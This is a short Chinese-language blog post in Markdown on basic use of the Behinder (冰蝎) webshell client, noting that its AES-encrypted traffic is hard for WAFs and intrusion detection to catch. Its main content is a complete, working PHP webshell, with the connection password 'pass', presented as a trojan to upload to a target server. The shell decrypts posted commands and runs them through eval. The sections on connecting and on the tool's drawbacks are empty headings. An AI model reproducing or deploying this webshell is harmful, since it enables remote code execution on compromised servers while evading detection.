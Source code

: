 ```yaml
---
layout: post
title: 冰蝎基础使用
categories: [安全工具]
description: 冰蝎基础使用资料
keywords: 安全工具 
---
```


# 冰蝎基础使用
  Webshell 客户端。流量动态加密，攻击特征安全设备（WAF、WebIDS)难检测。

  通讯加密方式: `AES`（高级加密算法，对称加密，微信小程序使用此种方法）

## 下载安装

环境需求:

> java6 以上环境

下载地址:

[冰蝎](https://github.com/rebeyond/Behinder/releases)

1. 下载 `Behinder_v3.0_Beta_9_fixed.zip`
2. 双击 `Behinder` 即可打开



## 使用方式

### 使用前提

- 上传木马
- 获取木马路径和拥有访问权限

### 1. 上传木马

通过文件上传，上传冰蝎马到目标服务器

例如：

上传文件 `shell.php` 到 PHP 服务器路径下：  

> 连接密码: pass


```shell
<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __construct($p) {eval($p."");}}
	@new C($params);
}
?>

```


### 2. 冰蝎连接



## 冰蝎的缺点

## 参考


https://blog.csdn.net/qq_42342141/article/details/105725044



[其他工具](http://www.4k8k.xyz/article/weixin_54161921/118579926)